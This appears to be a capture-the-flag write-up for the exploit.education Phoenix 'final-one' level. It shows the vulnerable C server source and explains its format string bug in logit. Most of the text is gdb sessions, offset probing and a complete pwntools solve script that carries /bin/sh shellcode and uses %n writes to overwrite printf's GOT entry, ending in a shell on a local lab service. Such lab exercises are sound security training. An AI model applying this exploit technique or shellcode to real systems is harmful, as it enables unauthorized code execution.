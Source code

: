 ```yaml
---
title: "Final One"
permalink: "exploit-education/phoenix/:title"
layout: post
---
```



```c
#include <arpa/inet.h>
#include <err.h>
#include <stdio.h>
#include <string.h>
#include <sys/socket.h>
#include <syslog.h>
#include <unistd.h>

#define BANNER \
  "Welcome to " LEVELNAME ", brought to you by https://exploit.education"

char username[128];
char hostname[64];
FILE *output;

void logit(char *pw) {
  char buf[2048];

  snprintf(buf, sizeof(buf), "Login from %s as [%s] with password [%s]\n",
      hostname, username, pw);

  fprintf(output, buf);
}

void trim(char *str) {
  char *q;

  q = strchr(str, '\r');
  if (q) *q = 0;
  q = strchr(str, '\n');
  if (q) *q = 0;
}

void parser() {
  char line[128];

  printf("[final1] $ ");

  while (fgets(line, sizeof(line) - 1, stdin)) {
    trim(line);
    if (strncmp(line, "username ", 9) == 0) {
      strcpy(username, line + 9);
    } else if (strncmp(line, "login ", 6) == 0) {
      if (username[0] == 0) {
        printf("invalid protocol\n");
      } else {
        logit(line + 6);
        printf("login failed\n");
      }
    }
    printf("[final1] $ ");
  }
}

int testing;

void getipport() {
  socklen_t l;
  struct sockaddr_in sin;

  if (testing) {
    strcpy(hostname, "testing:12121");
    return;
  }

  l = sizeof(struct sockaddr_in);
  if (getpeername(0, (void *)&sin, &l) == -1) {
    err(1, "you don't exist");
  }

  sprintf(hostname, "%s:%d", inet_ntoa(sin.sin_addr), ntohs(sin.sin_port));
}

int main(int argc, char **argv, char **envp) {
  if (argc >= 2) {
    testing = !strcmp(argv[1], "--test");
    output = stderr;
  } else {
    output = fopen("/dev/null", "w");
    if (!output) {
      err(1, "fopen(/dev/null)");
    }
  }

  setvbuf(stdout, NULL, _IONBF, 0);
  setvbuf(stderr, NULL, _IONBF, 0);

  printf("%s\n", BANNER);

  getipport();
  parser();

  return 0;
}
```

If you take a quick look at the code you can spot the format string bug in **logit** function, let's trace back to find where it's called.

It's called in **parser** function, this function takes two kinds of input (username followed by a string OR login).

username STRING stores the string in **line** and login calls **logit** function with that string as argument.

The bug here is that **snprintf** copies the string argument to **buf** then **fprintf** prints this string without using **%s**, hence the bug.

```
$ /opt/phoenix/i486/final-one --test
Welcome to phoenix/final-one, brought to you by https://exploit.education
[final1] $ username AAAA%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x 
[final1] $ login 
Login from testing:12121 as [AAAA0.0.69676f4c.7266206e.74206d6f.69747365.313a676e.31323132.20736120.4141415b.2e782541.252e7825.78252e78.2e78252e.252e7825] with password []
login failed
```

We can see that **AAA** appears at 9th place with **5b** as first byte so we will use **AAA** as offset then we enter the address we want to write to, but first we choose a good address.

The best choice if to overwrite a **GOT** entry, here we will overwrite the address of **printf**.

So we need to know the address of the buffer that will contain the shellcode. Open two terminals (you can use tmux or screen): 

```
# First Terminal
$ nc localhost 64014
Welcome to phoenix/final-one, brought to you by https://exploit.education
[final1] $
```

```
# Second Terminal

$ ps aux | grep final
phoenix+  1114  0.0  0.0    736     8 ?        Ss   12:17   0:00 /opt/phoenix/i486/final-one
user      1134  0.0  0.0   5136   984 pts/3    S+   12:18   0:00 grep final

$ sudo gdb -p 1114
Attaching to process 1114
Reading symbols from target:/opt/phoenix/i486/final-one...(no debugging symbols found)...done.

gef➤  disassemble logit
Dump of assembler code for function logit:
.....
   0x08048827 <+66>:    call   0x80485a0 <fprintf@plt>
   0x0804882c <+71>:    add    esp,0x10
.....

gef➤  b *0x0804882c
Breakpoint 1 at 0x804882c

gef➤  c
Continuing.
```

```
# First Terminal

[final1] $ username AAAAA
[final1] $ login
```

```
# Second Terminal

gef➤  x/16xw $ebp-0x808
0xffffd490:     0x69676f4c      0x7266206e      0x31206d6f      0x302e3732
0xffffd4a0:     0x312e302e      0x3134333a      0x61203234      0x415b2073
0xffffd4b0:     0x41414141      0x6977205d      0x70206874      0x77737361
0xffffd4c0:     0x2064726f      0x000a5d5b      0x00000000      0x00000000
```

We can see that our input appears at **0xffffd4b0** with just one byte offset before (so we need just one byte offset instead of three).

```
$ objdump -R /opt/phoenix/i486/final-one | grep printf
08049e48 R_386_JUMP_SLOT   printf
```

**printf** is at **08049e48**, now we are ready to write the exploit.

# Solution:

```python
# solve.py

from pwn import *

printf = 0x08049e48
buffer = 0xffffd4c0
shellcode = '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80'

buff = ""
buff += 'username A'		# A is just an offset

buff += p32(printf+0)
buff += 'AAAA'			# JUNK that will be popped with second %x
buff += p32(printf+1)
buff += 'AAAA'			# JUNK that will be popped with third %x
buff += p32(printf+2)
buff += 'AAAA'			# JUNK that will be popped with forth %x
buff += p32(printf+3)

buff += shellcode

buff += '%x' * 9
buff += '%45x %n'		# first byte 0xc8
buff += '%19x %n'		# second byte 0xd4
buff += '%42x %n'		# third byte 0xff
buff += '%255x %n \n'		# forth byte 0xff
buff += 'login \n'

p = remote('localhost', 64014)
print(p.recvline())

p.send(buff)
p.interactive()
```

Notice that we used **AAAA** between addresses because we use **%nx** instead of normal characters which will pop an a value from the stack.

```
$ python x.py
[+] Opening connection to localhost on port 64014: Done
Welcome to phoenix/final-one, brought to you by https://exploit.education

[*] Switching to interactive mode
[final1] $ [final1] $ login failed

$ whoami
phoenix-i386-final-one
```